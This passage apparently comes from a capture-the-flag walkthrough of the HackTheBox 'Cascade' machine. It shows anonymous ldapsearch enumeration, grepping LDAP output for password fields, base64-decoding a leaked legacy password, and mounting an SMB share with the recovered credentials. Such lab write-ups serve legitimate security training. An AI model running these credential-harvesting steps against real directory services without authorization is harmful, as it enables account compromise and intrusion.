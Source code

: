 By default, ldapsearch tries to authenticate via [SASL](https://ldapwiki.com/wiki/SASL). As we don't have any credentials, we need to add a `-x` flag to turn off the SASL authentication.

`ldapsearch -x -h 10.10.10.182 -b "DC=CASCADE,DC=LOCAL"`

The `-b` flag sets the base for the search. And the default filter is `(objectClass=*)` which returns all objects. This is the broadest search possible, so it returns a lot of output.

A good start is to grep for passwords.

```
root@kali:~/htb/cascade# grep -Ei "passw|pwd" ldap.txt 
<SNIP>
cascadeLegacyPwd: clk0bjVldmE=
<SNIP>
```

We find a legacy password. Now let's zoom into this section to see which user this password belongs to.

```
sAMAccountName: r.thompson
<SNIP>
cascadeLegacyPwd: clk0bjVldmE=
```

We can decode the password as follows:

`echo clk0bjVldmE= | base64 -d`

Now that we have a set of credentials, it's time to try it out on other services.

## SMB Enumeration

Enumerating SMB shares with `r.thompson` reveals that the `Data` share is readable.

We can mount it to take a closer look by listing all files recursively.

```
# mount -t cifs -o username=r.thompson //10.10.10.182/Data /mnt/Data
Password for r.thompson@//10.10.10.182/Data:  ********
# cd Data/
# ls -alR
```

We find a note suggesting that `TempAdmin` uses the same password as the admin account, so let's bear that in mind,

```
root@kali:/mnt/Data# cat './IT/Email Archives/Meeting_Notes_June_2018.html'
<SNIP>
<p>-- We will be using a temporary account to
perform all tasks related to the network migration and this account will be deleted at the end of
2018 once the migration is complete. This will allow us to identify actions
related to the migration in security logs etc. Username is TempAdmin (password is the same as the normal admin account password). </p>
```

Also, we quickly zoom in on a VNC registry entry. (VNC is a remote access software.)
